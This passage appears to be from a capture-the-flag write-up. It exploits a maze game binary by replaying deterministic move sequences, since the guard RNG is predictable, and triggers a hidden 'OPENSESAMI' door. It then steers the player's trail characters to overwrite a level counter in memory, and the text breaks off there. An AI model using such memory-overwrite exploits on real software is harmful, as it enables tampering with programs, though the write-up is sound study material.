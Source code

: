 So, all we need to do is overwrite it and then beat level 5 in order for the new level counter to take effect!

Also, another thing I've noticed is that the movement of the guards is determined by a rand() with a deterministic seed, thus granting a guarantee that if we pass a level or reach a point with certain moves, doing that exact combination will lead to the exact same position.

To get the combinations that'll lead me to each position is boring and took a lot of trial; so we'll skip the gruesome details and just assume we've reached this:

```py
io = start()

# Send anything to start the game.
io.send(b'j')

# Due to the fact that they randomize the locations of the guards via 
# a rand that is predictable, we can simply beat the first 4 levels on our own, 
# and write the way to beat them. 
# That way, we'll always beat them and we can simply get to the OPENSESAMI part!
beat_3_levels = 'ssdddwwdddssddwwwddssdssdssassddsssassd'

# Beat first 3 levels.
for i in range(3):
    io.send(beat_3_levels)

io.recvuntil("level 3")

beat_level_4 = 'ssdddwwdddssdssssassasssddddddssdddd'
io.send(beat_level_4)

io.recvuntil("level 4")

# j * 80 to get a better position of the guards.
get_to_open_sesami = 'ssdddwwdddssddwwddssdsdsssassdd' + 'j' * 80 + 'sssassaaaaa'
io.send(get_to_open_sesami)

# Get to the coordinates for the open sesami!
io.recvuntil("player at 8, 14")

# One extra character to open secret door! :)
io.send('OPENSESAMIJ'):
```

Now, after we send this, we can get to our exploitation part. Because of the fact that in each location we've been, we either write '0' (if we passed it) or 'S' (if we're there), we can overwrite the level_counter with this code:

```py
# Now go to y = 18, x = 8-4 to overwrite the levels counter :)
overwrite_levels = 'ssssaaaaddddwwwwdddddd'
io.send(overwrite_levels)
```

And now: